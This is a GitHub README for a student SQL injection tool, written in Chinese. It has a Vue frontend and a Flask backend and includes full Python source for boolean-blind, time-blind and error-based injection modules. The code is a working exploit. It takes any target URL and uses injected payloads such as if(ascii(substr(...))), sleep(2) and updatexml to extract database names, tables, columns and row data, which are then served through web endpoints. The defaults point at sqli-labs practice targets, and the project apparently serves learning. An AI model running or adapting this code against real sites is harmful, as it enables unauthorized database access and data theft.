





# SQLInjection

安全系统实验

## 安装

```shell
git clone https://github.com/zino00/SQLInjection
# 第一次运行前端
cd ./SQLInjection/frontend
npm install
npm run serve
# 运行后端
python ./SQLInjection/backend/SQLinjection/app.py
```


## 前端

SQL 注入系统，前端使用Vue框架编写，提供以下5种不同的注入方式接口，供用户使用。

使用方式基本相同：

* 输入目标URL，查询数据库名称；
* 选择数据库名称查询数据库表名
* 选择表名查询列名
* 选择列名查询列值

### 布尔盲注



### 时间盲注



### 联合注入



### 报错注入



### 宽字节注入




## 后端

通过flask框架编写后端，接口实现在Conroller文件，主要功能实现在sql文件中。

### 主程序 app.py

```python
from flask import Flask
from controller import wide_charController, boolController, errorController, timeController, unionController

app = Flask(__name__)
app.register_blueprint(wide_charController.bp)
app.register_blueprint(boolController.bp)
app.register_blueprint(errorController.bp)
app.register_blueprint(timeController.bp)
app.register_blueprint(unionController.bp)
if __name__ == "__main__":
    app.run()

```

python 运行 app.py 启动后端

### 基于布尔的盲注

基于布尔型SQL盲注即在SQL注入过程中，应用程序仅仅返回`True`（页面）和`False`（页面）。 这时，我们无法根据应用程序的返回页面得到我们需要的[数据库](https://cloud.tencent.com/solution/database?from=10680)信息。但是可以通过构造逻辑判断（比较大小）来得到我们需要的信息。

#### boolsql.py

```python
import requests

# 若页面返回真，则会出现You are in...........
flag = "You are in..........."

# 设置重连次数以及将连接改为短连接
# 防止因为HTTP连接数过多导致的 Max retries exceeded with url
requests.adapters.DEFAULT_RETRIES = 5
conn = requests.session()
conn.keep_alive = False


# 盲注主函数
def StartSqli(url):
    # 存放数据库名变量
    DBName = ""
    # 存放数据库表变量
    DBTables = []
    # 存放数据库字段变量
    DBColumns = []
    # 存放数据字典变量,键为字段名，值为字段数据列表
    DBData = {}
    GetDBName(url)
    print("[+]当前数据库名:{0}".format(DBName))
    GetDBTables(url, DBName)
    print("[+]数据库{0}的表如下:".format(DBName))
    for item in range(len(DBTables)):
        print("(" + str(item + 1) + ")" + DBTables[item])
    tableIndex = int(input("[*]请输入要查看表的序号:")) - 1
    GetDBColumns(url, DBName, DBTables[tableIndex])
    while True:
        print("[+]数据表{0}的字段如下:".format(DBTables[tableIndex]))
        for item in range(len(DBColumns)):
            print("(" + str(item + 1) + ")" + DBColumns[item])
        columnIndex = int(input("[*]请输入要查看字段的序号(输入0退出):")) - 1
        if (columnIndex == -1):
            break
        else:
            GetDBData(url, DBTables[tableIndex], DBColumns[columnIndex])


# 获取数据库名函数
def GetDBName(url):
    # 用来存放网页当前使用的数据库名
    DBName = ""
    print("[-]开始获取数据库名长度")
    # 保存数据库名长度变量
    DBNameLen = 0
    # 用于检查数据库名长度的payload
    payload = "?id=1' and if(length(database())={0},1,0) %23"
    # 把URL和payload进行拼接得到最终的请求URL
    targetUrl = url + payload
    # 用for循环来遍历请求，得到数据库名长度
    for DBNameLen in range(1, 99):
        # 对payload中的参数进行赋值猜解
        res = conn.post(targetUrl.format(DBNameLen))
        # 判断flag是否在返回的页面中
        if flag in res.content.decode("utf-8"):
            print("[+]数据库名长度:" + str(DBNameLen))
            break
    print("[-]开始获取数据库名")
    payload = "?id=1' and if(ascii(substr(database(),{0},1))={1},1,0) %23"
    targetUrl = url + payload
    # a表示substr()函数的截取起始位置
    for a in range(1, DBNameLen + 1):
        # b表示33~127位ASCII中可显示字符
        for b in range(33, 128):
            res = conn.post(targetUrl.format(a, b))
            if flag in res.content.decode("utf-8"):
                DBName += chr(b)
                print("[-]" + DBName)
                break
    return DBName


# 获取数据库表函数
def GetDBTables(url, dbname):
    # 存放数据库表变量
    DBTables = []
    # 存放数据库表数量的变量
    DBTableCount = 0
    print("[-]开始获取{0}数据库表数量:".format(dbname))
    # 获取数据库表数量的payload
    payload = "?id=1' and if((select count(*)table_name from information_schema.tables where table_schema='{0}')={1},1,0) %23"
    targetUrl = url + payload
    # 开始遍历获取数据库表的数量
    for DBTableCount in range(1, 99):
        res = conn.post(targetUrl.format(dbname, DBTableCount))
        if flag in res.content.decode("utf-8"):
            print("[+]{0}数据库的表数量为:{1}".format(dbname, DBTableCount))
            break
    print("[-]开始获取{0}数据库的表".format(dbname))
    # 遍历表名时临时存放表名长度变量
    tableLen = 0
    # a表示当前正在获取表的索引
    for a in range(0, DBTableCount):
        print("[-]正在获取第{0}个表名".format(a + 1))
        # 先获取当前表名的长度
        for tableLen in range(1, 99):
            payload = "?id=1' and if((select LENGTH(table_name) from information_schema.tables where table_schema='{0}' limit {1},1)={2},1,0) %23"
            targetUrl = url + payload
            res = conn.post(targetUrl.format(dbname, a, tableLen))
            if flag in res.content.decode("utf-8"):
                break
        # 开始获取表名
        # 临时存放当前表名的变量
        table = ""
        # b表示当前表名猜解的位置
        for b in range(1, tableLen + 1):
            payload = "?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='{0}' limit {1},1),{2},1))={3},1,0) %23"
            targetUrl = url + payload
            # c表示33~127位ASCII中可显示字符
            for c in range(33, 128):
                res = conn.post(targetUrl.format(dbname, a, b, c))
                if flag in res.content.decode("utf-8"):
                    table += chr(c)
                    print(table)
                    break
        # 把获取到的名加入到DBTables
        DBTables.append(table)
        # 清空table，用来继续获取下一个表名
        table = ""
    return DBTables


# 获取数据库表的字段函数
def GetDBColumns(url, dbname, dbtable):
    # 存放数据库字段变量
    DBColumns = []
    # 存放字段数量的变量
    DBColumnCount = 0
    print("[-]开始获取{0}数据表的字段数:".format(dbtable))
    for DBColumnCount in range(99):
        payload = "?id=1' and if((select count(column_name) from information_schema.columns where table_schema='{0}' and table_name='{1}')={2},1,0) %23"
        targetUrl = url + payload
        res = conn.post(targetUrl.format(dbname, dbtable, DBColumnCount))
        if flag in res.content.decode("utf-8"):
            print("[-]{0}数据表的字段数为:{1}".format(dbtable, DBColumnCount))
            break
    # 开始获取字段的名称
    # 保存字段名的临时变量
    column = ""
    # a表示当前获取字段的索引
    for a in range(0, DBColumnCount):
        print("[-]正在获取第{0}个字段名".format(a + 1))
        # 先获取字段的长度
        for columnLen in range(99):
            payload = "?id=1' and if((select length(column_name) from information_schema.columns where table_schema='{0}' and table_name='{1}' limit {2},1)={3},1,0) %23"
            targetUrl = url + payload
            res = conn.post(targetUrl.format(dbname, dbtable, a, columnLen))
            if flag in res.content.decode("utf-8"):
                break
        # b表示当前字段名猜解的位置
        for b in range(1, columnLen + 1):
            payload = "?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema='{0}' and table_name='{1}' limit {2},1),{3},1))={4},1,0) %23"
            targetUrl = url + payload
            # c表示33~127位ASCII中可显示字符
            for c in range(33, 128):
                res = conn.post(targetUrl.format(dbname, dbtable, a, b, c))
                if flag in res.content.decode("utf-8"):
                    column += chr(c)
                    print(column)
                    break
        # 把获取到的名加入到DBColumns
        DBColumns.append(column)
        # 清空column，用来继续获取下一个字段名
        column = ""
    return DBColumns


# 获取表数据函数
def GetDBData(url, dbtable, dbcolumn):
    # 存放数据字典变量,键为字段名，值为字段数据列表
    DBData = {}
    # 先获取字段数据数量
    DBDataCount = 0
    print("[-]开始获取{0}表{1}字段的数据数量".format(dbtable, dbcolumn))
    for DBDataCount in range(99):
        payload = "?id=1'and if ((select count({0}) from {1})={2},1,0)  %23"
        targetUrl = url + payload
        res = conn.post(targetUrl.format(dbcolumn, dbtable, DBDataCount))
        if flag in res.content.decode("utf-8"):
            print("[-]{0}表{1}字段的数据数量为:{2}".format(dbtable, dbcolumn, DBDataCount))
            break
    for a in range(0, DBDataCount):
        print("[-]正在获取{0}的第{1}个数据".format(dbcolumn, a + 1))
        # 先获取这个数据的长度
        dataLen = 0
        for dataLen in range(99):
            payload = "?id=1'and if ((select length({0}) from {1} limit {2},1)={3},1,0)  %23"
            targetUrl = url + payload
            res = conn.post(targetUrl.format(dbcolumn, dbtable, a, dataLen))
            if flag in res.content.decode("utf-8"):
                print("[-]第{0}个数据长度为:{1}".format(a + 1, dataLen))
                break
        # 临时存放数据内容变量
        data = ""
        # 开始获取数据的具体内容
        # b表示当前数据内容猜解的位置
        for b in range(1, dataLen + 1):
            for c in range(33, 128):
                payload = "?id=1'and if (ascii(substr((select {0} from {1} limit {2},1),{3},1))={4},1,0)  %23"
                targetUrl = url + payload
                res = conn.post(targetUrl.format(dbcolumn, dbtable, a, b, c))
                if flag in res.content.decode("utf-8"):
                    data += chr(c)
                    print(data)
                    break
        # 放到以字段名为键，值为列表的字典中存放
        DBData.setdefault(dbcolumn, []).append(data)
        print(DBData)
        # 把data清空来，继续获取下一个数据
        data = ""
    return DBData

if __name__ == '__main__':
    # parser = optparse.OptionParser('usage: python %prog -u url \n\n'
    #                                'Example: python %prog -u http://192.168.61.1/sql/Less-8/?id=1\n')
    # # 目标URL参数-u
    # parser.add_option('-u', '--url', dest='targetURL', default='http://127.0.0.1/sqli-labs'
    #                                                            ''
    #                                                            ''
    #                                                            ''
    #                                                            '/Less-8/?id=1', type='string',
    #                   help='target URL')
    # (options, args) = parser.parse_args()
    # StartSqli(options.targetURL)

    url = "http://127.0.0.1/sqli-labs/Less-8/"
    dbname = "security"
    dbtable = "users"
    # GetDBName(url)
    GetDBTables(url, dbname)

```


#### boolController.py

```python
import json

from flask import Flask, request, Response, Blueprint
from SQLinjection.hander.hd_base import require
from SQLinjection.sql import boolsql

bp = Blueprint('bool', __name__, url_prefix='/bool')


@bp.route('/GetDBName', methods=['POST'])
@require('url')
def GetDBName():
    DBName = boolsql.GetDBName(request.json.get('url'))
    t = {"code": 0,
         "message": "爆破成功",
         "DBName": DBName
         }
    return Response(json.dumps(t), mimetype='application/json')


@bp.route('/GetDBTables', methods=['POST'])
@require('url', "DBName")
def GetDBTables():
    DBTables = boolsql.GetDBTables(request.json.get('url'), request.json.get('DBName'))
    listID = range(1, len(DBTables) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBTables": dict(zip(listID, DBTables))
         }
    return Response(json.dumps(t), mimetype='application/json')


@bp.route('/GetDBColumns', methods=['POST'])
@require('url', "DBName", "DBTable")
def GetDBColumns():
    DBColumns = boolsql.GetDBColumns(request.json.get('url'), request.json.get('DBName'), request.json.get('DBTable'))
    listID = range(1, len(DBColumns) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBColumns": dict(zip(listID, DBColumns))
         }
    return Response(json.dumps(t), mimetype='application/json')


@bp.route('/GetDBData', methods=['POST'])
@require('url', "DBTable", "DBColumn")
def GetDBData():
    DBData = boolsql.GetDBData(request.json.get('url'), request.json.get('DBTable'), request.json.get('DBColumn'))
    listID = range(1, len(DBData) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBData": DBData
         }
    return Response(json.dumps(t), mimetype='application/json')


```


### 基于时间的盲注

如果说基于boolean的盲注在页面上还可以看到0 or 1的回显的话，那么基于time的盲注就什么也看不到了。但是，可以通过特定的输入，判断后台执行的时间，从而确定注入。

#### timesql.py

```python
import datetime
import optparse
import time

import requests

# 若页面返回真，则会出现You are in...........
flag = "You are in..........."

# 设置重连次数以及将连接改为短连接
# 防止因为HTTP连接数过多导致的 Max retries exceeded with url
requests.adapters.DEFAULT_RETRIES = 5
conn = requests.session()
conn.keep_alive = False


# 盲注主函数
def StartSqli(url):
    DBName = GetDBName(url)
    print("[+]当前数据库名:{0}".format(DBName))
    DBTables = GetDBTables(url, DBName)
    print("[+]数据库{0}的表如下:".format(DBName))
    for item in range(len(DBTables)):
        print("(" + str(item + 1) + ")" + DBTables[item])
    tableIndex = int(input("[*]请输入要查看表的序号:")) - 1
    DBColumns= GetDBColumns(url, DBName, DBTables[tableIndex])
    while True:
        print("[+]数据表{0}的字段如下:".format(DBTables[tableIndex]))
        for item in range(len(DBColumns)):
            print("(" + str(item + 1) + ")" + DBColumns[item])
        columnIndex = int(input("[*]请输入要查看字段的序号(输入0退出):")) - 1
        if (columnIndex == -1):
            break
        else:
            DBData = GetDBData(url, DBTables[tableIndex], DBColumns[columnIndex])


# 获取数据库名函数
def GetDBName(url):
    # 用来存放网页当前使用的数据库名
    DBName = ""
    print("[-]开始获取数据库名长度")
    # 保存数据库名长度变量
    DBNameLen = 0
    # 用于检查数据库名长度的payload
    payload = "?id=1' and if(length(database())={0},sleep(2),0) %23"
    # 把URL和payload进行拼接得到最终的请求URL
    targetUrl = url + payload
    # 用for循环来遍历请求，得到数据库名长度
    for DBNameLen in range(1, 99):
        # 对payload中的参数进行赋值猜解
        time1 = datetime.datetime.now()
        res = conn.post(targetUrl.format(DBNameLen))
        time2 = datetime.datetime.now()
        sec = (time2 - time1).seconds
        # 判断flag是否在返回的页面中
        if sec >= 2:
            print("[+]数据库名长度:" + str(DBNameLen))
            break
    print("[-]开始获取数据库名")
    payload = "?id=1' and if(ascii(substr(database(),{0},1))={1},sleep(2),0) %23"
    targetUrl = url + payload
    # a表示substr()函数的截取起始位置
    for a in range(1, DBNameLen + 1):
        # b表示33~127位ASCII中可显示字符
        for b in range(33, 128):
            time1 = datetime.datetime.now()
            res = conn.post(targetUrl.format(a, b))
            time2 = datetime.datetime.now()
            sec = (time2 - time1).seconds
            if sec >= 2:
                DBName += chr(b)
                print("[-]" + DBName)
                break
    return DBName


# 获取数据库表函数
def GetDBTables(url, dbname):
    # 存放数据库表变量
    DBTables = []
    # 存放数据库表数量的变量
    DBTableCount = 0
    print("[-]开始获取{0}数据库表数量:".format(dbname))
    # 获取数据库表数量的payload
    payload = "?id=1' and if((select count(*)table_name from information_schema.tables where table_schema='{0}')={1},sleep(2),0) %23"
    targetUrl = url + payload
    # 开始遍历获取数据库表的数量
    for DBTableCount in range(1, 99):

        time1 = datetime.datetime.now()
        res = conn.post(targetUrl.format(dbname, DBTableCount))
        time2 = datetime.datetime.now()

        sec = (time2 - time1).seconds
        if sec >= 2:
            print("[+]{0}数据库的表数量为:{1}".format(dbname, DBTableCount))
            break
    print("[-]开始获取{0}数据库的表".format(dbname))
    # 遍历表名时临时存放表名长度变量
    tableLen = 0
    # a表示当前正在获取表的索引
    for a in range(0, DBTableCount):
        print("[-]正在获取第{0}个表名".format(a + 1))
        # 先获取当前表名的长度
        for tableLen in range(1, 99):
            payload = "?id=1' and if((select LENGTH(table_name) from information_schema.tables where table_schema='{0}' limit {1},1)={2},sleep(2),0) %23"
            targetUrl = url + payload

            time1 = datetime.datetime.now()
            res = conn.post(targetUrl.format(dbname, a, tableLen))
            time2 = datetime.datetime.now()

            sec = (time2 - time1).seconds
            if sec >= 2:
                break
        # 开始获取表名
        # 临时存放当前表名的变量
        table = ""
        # b表示当前表名猜解的位置
        for b in range(1, tableLen + 1):
            payload = "?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='{0}' limit {1},1),{2},1))={3},sleep(2),0) %23"
            targetUrl = url + payload
            # c表示33~127位ASCII中可显示字符
            for c in range(33, 128):

                time1 = datetime.datetime.now()
                res = conn.post(targetUrl.format(dbname, a, b, c))
                time2 = datetime.datetime.now()

                sec = (time2 - time1).seconds
                if sec >= 2:
                    table += chr(c)
                    print(table)
                    break
        # 把获取到的名加入到DBTables
        DBTables.append(table)
        # 清空table，用来继续获取下一个表名
        table = ""
    return DBTables


# 获取数据库表的字段函数
def GetDBColumns(url, dbname, dbtable):
    # 存放数据库字段变量
    DBColumns = []
    # 存放字段数量的变量
    DBColumnCount = 0
    print("[-]开始获取{0}数据表的字段数:".format(dbtable))
    for DBColumnCount in range(99):
        payload = "?id=1' and if((select count(column_name) from information_schema.columns where table_schema='{0}' and table_name='{1}')={2},sleep(2),0) %23"
        targetUrl = url + payload

        time1 = datetime.datetime.now()
        res = conn.post(targetUrl.format(dbname, dbtable, DBColumnCount))
        time2 = datetime.datetime.now()

        sec = (time2 - time1).seconds
        if sec >= 2:
            print("[-]{0}数据表的字段数为:{1}".format(dbtable, DBColumnCount))
            break
    # 开始获取字段的名称
    # 保存字段名的临时变量
    column = ""
    # a表示当前获取字段的索引
    for a in range(0, DBColumnCount):
        print("[-]正在获取第{0}个字段名".format(a + 1))
        # 先获取字段的长度
        for columnLen in range(99):
            payload = "?id=1' and if((select length(column_name) from information_schema.columns where table_schema='{0}' and table_name='{1}' limit {2},1)={3},sleep(2),0) %23"
            targetUrl = url + payload

            time1 = datetime.datetime.now()
            res = conn.post(targetUrl.format(dbname, dbtable, a, columnLen))
            time2 = datetime.datetime.now()

            sec = (time2 - time1).seconds
            if sec >= 2:
                break
        # b表示当前字段名猜解的位置
        for b in range(1, columnLen + 1):
            payload = "?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema='{0}' and table_name='{1}' limit {2},1),{3},1))={4},sleep(2),0) %23"
            targetUrl = url + payload
            # c表示33~127位ASCII中可显示字符
            for c in range(33, 128):

                time1 = datetime.datetime.now()
                res = conn.post(targetUrl.format(dbname, dbtable, a, b, c))
                time2 = datetime.datetime.now()

                sec = (time2 - time1).seconds
                if sec >= 2:
                    column += chr(c)
                    print(column)
                    break
        # 把获取到的名加入到DBColumns
        DBColumns.append(column)
        # 清空column，用来继续获取下一个字段名
        column = ""
    return DBColumns


# 获取表数据函数
def GetDBData(url, dbtable, dbcolumn):
    # 存放数据字典变量,键为字段名，值为字段数据列表
    DBData = {}
    # 先获取字段数据数量
    DBDataCount = 0
    print("[-]开始获取{0}表{1}字段的数据数量".format(dbtable, dbcolumn))
    for DBDataCount in range(99):
        payload = "?id=1'and if ((select count({0}) from {1})={2},sleep(2),0)  %23"
        targetUrl = url + payload

        time1 = datetime.datetime.now()
        res = conn.post(targetUrl.format(dbcolumn, dbtable, DBDataCount))
        time2 = datetime.datetime.now()

        sec = (time2 - time1).seconds
        if sec >= 2:
            print("[-]{0}表{1}字段的数据数量为:{2}".format(dbtable, dbcolumn, DBDataCount))
            break
    for a in range(0, DBDataCount):
        print("[-]正在获取{0}的第{1}个数据".format(dbcolumn, a + 1))
        # 先获取这个数据的长度
        dataLen = 0
        for dataLen in range(99):
            payload = "?id=1'and if ((select length({0}) from {1} limit {2},1)={3},sleep(2),0)  %23"
            targetUrl = url + payload

            time1 = datetime.datetime.now()
            res = conn.post(targetUrl.format(dbcolumn, dbtable, a, dataLen))
            time2 = datetime.datetime.now()

            sec = (time2 - time1).seconds
            if sec >= 2:
                print("[-]第{0}个数据长度为:{1}".format(a + 1, dataLen))
                break
        # 临时存放数据内容变量
        data = ""
        # 开始获取数据的具体内容
        # b表示当前数据内容猜解的位置
        for b in range(1, dataLen + 1):
            for c in range(33, 128):
                payload = "?id=1'and if (ascii(substr((select {0} from {1} limit {2},1),{3},1))={4},sleep(2),0)  %23"
                targetUrl = url + payload

                time1 = datetime.datetime.now()
                res = conn.post(targetUrl.format(dbcolumn, dbtable, a, b, c))
                time2 = datetime.datetime.now()

                sec = (time2 - time1).seconds
                if sec >= 2:
                    data += chr(c)
                    print(data)
                    break
        # 放到以字段名为键，值为列表的字典中存放
        DBData.setdefault(dbcolumn, []).append(data)
        print(DBData)
        # 把data清空来，继续获取下一个数据
        data = ""
    return DBData

if __name__ == '__main__':
    parser = optparse.OptionParser('usage: python %prog -u url \n\n'
                                   'Example: python %prog -u http://192.168.61.1/sql/Less-8/?id=1\n')
    # 目标URL参数-u
    parser.add_option('-u', '--url', dest='targetURL', default='http://127.0.0.1/sqli-labs'
                                                               ''
                                                               ''
                                                               ''
                                                               '/Less-8/', type='string',
                      help='target URL')
    (options, args) = parser.parse_args()
    StartSqli(options.targetURL)
    # url="http://127.0.0.1/sqli-labs/Less-8/"
    # dbname="security"
    # dbtable="users"
    # # GetDBName(url)
    # GetDBTables(url, dbname)


```


#### timeController.py

```python
import json

from flask import Flask, request, Response, Blueprint
from SQLinjection.hander.hd_base import require
from SQLinjection.sql import timesql

bp = Blueprint('time', __name__, url_prefix='/time')


@bp.route('/GetDBName', methods=['POST'])
@require('url')
def GetDBName():
    DBName = timesql.GetDBName(request.json.get('url'))
    t = {"code": 0,
         "message": "爆破成功",
         "DBName": DBName
         }
    return Response(json.dumps(t), mimetype='application/json')


@bp.route('/GetDBTables', methods=['POST'])
@require('url', "DBName")
def GetDBTables():
    DBTables = timesql.GetDBTables(request.json.get('url'), request.json.get('DBName'))
    listID = range(1, len(DBTables) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBTables": dict(zip(listID, DBTables))
         }
    return Response(json.dumps(t), mimetype='application/json')


@bp.route('/GetDBColumns', methods=['POST'])
@require('url', "DBName", "DBTable")
def GetDBColumns():
    DBColumns = timesql.GetDBColumns(request.json.get('url'), request.json.get('DBName'), request.json.get('DBTable'))
    listID = range(1, len(DBColumns) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBColumns": dict(zip(listID, DBColumns))
         }
    return Response(json.dumps(t), mimetype='application/json')


@bp.route('/GetDBData', methods=['POST'])
@require('url', "DBTable", "DBColumn")
def GetDBData():
    DBData = timesql.GetDBData(request.json.get('url'), request.json.get('DBTable'), request.json.get('DBColumn'))
    listID = range(1, len(DBData) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBData": DBData
         }
    return Response(json.dumps(t), mimetype='application/json')

```


### 基于报错注入

基于报错的注入，是指通过构造特定的SQL语句，让攻击者想要查询的信息（如数据库名、版本号、用户名等）通过页面的错误提示回显出来。 

报错注入一般需要具备两个前提条件:

1. Web应用程序未关闭数据库报错函数，对于一些SQL语句的错误直接回显在页面上
2. 后台未对一些具有报错功能的函数进行过滤。

常用的报错功能函数包括`extractvalue()`、`updatexml()`、`floor()`、`exp()`等。

#### errorsql.py

```python
import re
import requests

# Less-1: ?id=1'
# Less-2: ?id=1
# https://blog.csdn.net/qq_52072846/article/details/123003207
# https://blog.csdn.net/l2872253606/article/details/124423275
# 前提：判断有注入点
# 常见的注入点payload.
payloads = ["?id=1'", '?id=1"', "?id=1')", '?id=1")', "?id=1)","?id=1"]


# 获取数据库名
def GetDBName(url):
    db_name = ''
    for payload in payloads:
        test = url + payload + " and extractvalue (1,concat(0x7e,database()))--+"
        # 请求
        req = requests.get(test)
        req.encoding = 'gbk'
        # 得到网页的html
        html = req.text
        text = str(html)
        try:
            if 'syntax' or 'error' in text:
                # 通过正则表达式得到结果
                db_name = re.search("~\w{1,30}'", text).group()[1:-1]
        except:
            # 由于payload不正确而没有成功，则pass
            pass
    return db_name


# 获取数据库表函数
def GetDBTables(url, table_schema):
    table_names = []
    # extractvalue()函数所能显示的错误信息最大长度为32。如果错误信息超过了最大长度，有可能导致显示不全。因此,需要借助limit来做分行显示
    # 一次得到一个表
    for payload in payloads:
        for num in range(20):
            test = url + payload + " and updatexml(11,concat(0x7e,(select table_name from information_schema.tables " \
                                   f"where table_schema= '{table_schema}' " \
                                   f"limit {num},1),0x7e),11)--+ "
            # 请求
            # print(test)
            con = requests.get(test)
            con.encoding = 'gbk'
            # 得到网页的html
            html = con.text
            text = str(html)
            if 'syntax' or 'error' in text:
                table_name = re.search("~\w{1,30}~", text)
                if table_name is None:
                    # 由于payload无效/num超过现有个数而没有结果，则break
                    break
                else:
                    # 保存结果
                    name = table_name.group()[1:-1]
                    table_names.append(name)
    return table_names


# 获取数据库表的字段函数
def GetDBColumns(url, db_name, table_name):
    column_names = []
    for payload in payloads:
        for num in range(20):
            test = url + payload + " and updatexml(11,concat(0x7e,(select column_name from " \
                                   f"information_schema.columns where table_schema='{db_name}' and table_name='{table_name}' " \
                                   f"limit {num},1),0x7e),11)--+ "
            # 请求
            # print(test)
            con = requests.get(test)
            # print(con.url)
            con.encoding = 'gbk'
            html = con.text
            # 得到网页的html
            text = str(html)
            if 'syntax' or 'error' in text:
                column_name = re.search("~\w{1,30}~", text)
                if column_name is None:
                    # 由于payload无效/num超过现有个数而没有结果，则break
                    break
                else:
                    # 保存结果
                    name = column_name.group()[1:-1]
                    column_names.append(name)
    return column_names


# 获取表数据函数
def GetDBData(url, db_name, table_name, colunm_name):
    colunm_values = {}
    colunm_values[colunm_name] = []
    for payload in payloads:
        for num in range(20):
            test = url + payload + f" and updatexml(1,concat(0x7e,(select {colunm_name} from {db_name}.{table_name} limit {num},1),0x7e),1)--+ "
            # 请求
            # print(test)
            con = requests.get(test)
            con.encoding = 'gbk'
            # 得到网页的html
            html = con.text
            text = str(html)
            if 'syntax' or 'error' in text:
                column_value = re.search('~\S{1,32}~', text)
                if column_value is None:
                    # 由于payload无效/num超过现有个数而没有结果，则break
                    break
                else:
                    value = column_value.group()[1:-1]
                    colunm_values[colunm_name].append(value)
    return colunm_values


def StartSqli(url):
    db_name = GetDBName(url)
    print(str(db_name))
    table_names = GetDBTables(url, db_name)
    print('-- ' + db_name + ':' + str(table_names))
    for table_name in table_names:
        column_names = GetDBColumns(url, db_name, table_name)
        print('---- ' + table_name + ':' + str(column_names))
        for column_name in column_names:
            column_values = GetDBData(url, db_name, table_name, column_name)
            print('------' + column_name + ':' + str(column_values[column_name]))


if __name__ == '__main__':
    url = "http://1d7b87a0-abb7-4168-909e-7ac77d06f8e4.node4.buuoj.cn/Less-2/"
    StartSqli(url)

```


#### errorController.py

```sql
import json

from flask import Flask, request, Response, Blueprint
from SQLinjection.hander.hd_base import require
from SQLinjection.sql import errorsql

bp = Blueprint('error', __name__, url_prefix='/error')


@bp.route('/GetDBName', methods=['POST'])
@require('url')
def GetDBName():
    DBName = errorsql.GetDBName(request.json.get('url'))
    t = {"code": 0,
         "message": "爆破成功",
         "DBName": DBName
         }
    return Response(json.dumps(t), mimetype='application/json')


@bp.route('/GetDBTables', methods=['POST'])
@require('url', "DBName")
def GetDBTables():
    DBTables = errorsql.GetDBTables(request.json.get('url'), request.json.get('DBName'))
    listID = range(1, len(DBTables) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBTables": dict(zip(listID, DBTables))
         }
    return Response(json.dumps(t), mimetype='application/json')


